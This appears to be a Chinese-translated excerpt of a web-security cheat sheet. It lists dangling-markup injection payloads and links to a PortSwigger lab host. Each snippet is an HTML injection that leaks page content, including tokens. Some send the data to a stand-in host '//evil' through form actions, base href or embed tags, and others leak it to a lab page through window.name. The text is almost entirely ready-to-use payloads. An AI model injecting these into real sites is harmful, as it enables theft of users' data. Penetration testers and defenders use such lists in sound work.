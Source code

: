 #### **嵌入 src**

```
<embed src="//evil?
```

#### **使用 textarea 消费标记并发布到外部站点**

```
<form><button formaction=//evil>XSS</button><textarea name=x>
```

#### **使用表单目标通过 window.name 传递标记数据**

```
<button form=x>XSS</button><form id=x action=//evil target='
```

#### **使用基本目标通过 window.name 传递标记数据**

```
<a href=http://subdomain1.portswigger-labs.net/dangling_markup/name.html><font size=100 color=red>You must click me</font></a><base target="
```

#### **使用 formtarget 通过 window.name 传递标记数据**

```
<form><input type=submit value="Click me" formaction=http://subdomain1.portswigger-labs.net/dangling_markup/name.html formtarget="
```

#### **使用基本 href 传递数据**

```
<a href=abc style="width:100%;height:100%;position:absolute;font-size:1000px;">xss<base href="//evil/
```

#### **使用嵌入窗口名从页面传递数据**

```
<embed src=http://subdomain1.portswigger-labs.net/dangling_markup/name.html name="
```

#### **使用 iframe 窗口名从页面传递数据**

```
<iframe src=http://subdomain1.portswigger-labs.net/dangling_markup/name.html name="
```

#### **使用对象窗口名从页面传递数据**

```
<object data=http://subdomain1.portswigger-labs.net/dangling_markup/name.html name="
```

#### **使用框架窗口名称从页面传递数据**
